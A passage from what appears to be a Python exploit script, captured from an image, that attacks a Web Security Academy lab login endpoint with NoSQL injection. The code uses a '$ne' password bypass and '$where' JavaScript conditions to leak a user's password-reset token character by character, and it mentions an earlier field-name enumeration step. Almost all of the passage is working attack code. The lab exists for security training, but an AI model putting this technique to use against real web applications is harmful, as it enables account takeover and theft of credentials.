 ```python
                    print('[-] Looped through all possible characters, no luck. Maybe we found all the characters?')
                    print(f'[*] Field name: {fieldName}')
                    return
                if isValidCharacter:
                    fieldName += character
                    print(f'\n[+] Found valid character "{character}" on field position {fieldPosition}')
                    break

    def extractFieldData(self, fieldName):
        username = 'carlos'
        password = {
            '$ne': 'foobar'
        }
        characterIndex = 0
        foundResetToken = str()
        while True:
            for character in self.CHARACTER_SET:
                payload = f'this.pwResetTkn[{characterIndex}] == "{character}"'
                print(f'[*] Trying payload: {payload}', end='\r')
                loginData = {
                    'username': self.USERNAME,
                    'password': self.PASSWORD,
                    '$where': payload
                }
                loginRespond = requests.post(f'{self.baseUrl}{self.LOGIN_ENDPOINT}', json=loginData)
                isValidCharacter = False if 'Invalid username' in loginRespond.text else True
                isLastCharacter = character == self.LAST_CHARACTER

                if not isValidCharacter and isLastCharacter:
                    print('[-] Looped through all possible characters, no luck. Maybe we found all the characters?')
                    print(f'[*] Password reset token: {foundResetToken}')
                    return
                if isValidCharacter:
                    foundResetToken += character
                    print(f'\n[+] Found valid character "{character}" on character position {characterIndex}')
                    characterIndex += 1
                    break

if __name__ == '__main__':
    baseUrl = 'https://0a5d009d04e55d29804112b8009f007b.web-security-academy.net'
    exploit = Exploit(baseUrl)

    # you can change your minimum/maximum field position here
    # MINIMUM_FIELD_POSITION = 0
    # MAXIMUM_FIELD_POSITION = 4
    # for fieldPosition in range(MINIMUM_FIELD_POSITION, MAXIMUM_FIELD_POSITION):
    #     exploit.extractFieldNames(fieldPosition)

    FIELD_NAME = 'pwResetTkn'
    exploit.extractFieldData(FIELD_NAME)
```
